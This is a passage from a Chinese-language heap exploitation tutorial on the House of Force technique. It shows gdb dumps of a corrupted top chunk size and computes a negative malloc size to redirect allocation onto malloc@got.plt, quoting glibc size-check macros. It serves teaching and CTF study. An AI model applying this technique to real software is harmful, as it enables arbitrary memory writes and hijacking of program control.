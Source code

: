 ```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此时的 top chunk 位置，当我们进行下一次分配的时候就会更改 top chunk 的位置到我们想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此时一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下来我们执行`malloc(-4120);`，-4120是怎么得出的呢？
首先，我们需要明确要写入的目的地址，这里我编译程序后，0x601020 是 `malloc@got.plt` 的地址

```
0x601020:	0x00007ffff7a91130 <=== malloc@got.plt
```
所以我们应该将 top chunk 指向 0x601010 处，这样当下次再分配 chunk 时，就可以分配到 `malloc@got.plt` 处的内存了。

之后明确当前 top chunk 的地址，根据前面描述，top chunk 位于 0x602020，所以我们可以计算偏移如下

0x601010-0x602020=-4112

此外，用户申请的内存大小，一旦进入申请内存的函数中就变成了无符号整数。

```c
void *__libc_malloc(size_t bytes) {
```

如果想要用户输入的大小经过内部的 `checked_request2size`可以得到这样的大小，即

```c
/*
   Check if a request is so large that it would wrap around zero when
   padded and aligned. To simplify some other code, the bound is made
   low enough so that adding MINSIZE will also not wrap around zero.
 */

#define REQUEST_OUT_OF_RANGE(req)                                              \
    ((unsigned long) (req) >= (unsigned long) (INTERNAL_SIZE_T)(-2 * MINSIZE))
/* pad request bytes into a usable size -- internal version */
//MALLOC_ALIGN_MASK = 2 * SIZE_SZ -1
#define request2size(req)                                                      \
    (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)                           \
         ? MINSIZE                                                             \
         : ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

/*  Same, except also perform argument check */

#define checked_request2size(req, sz)                                          \
    if (REQUEST_OUT_OF_RANGE(req)) {                                           \
        __set_errno(ENOMEM);                                                   \
        return 0;                                                              \
    }                                                                          \
    (sz) = request2size(req);
```
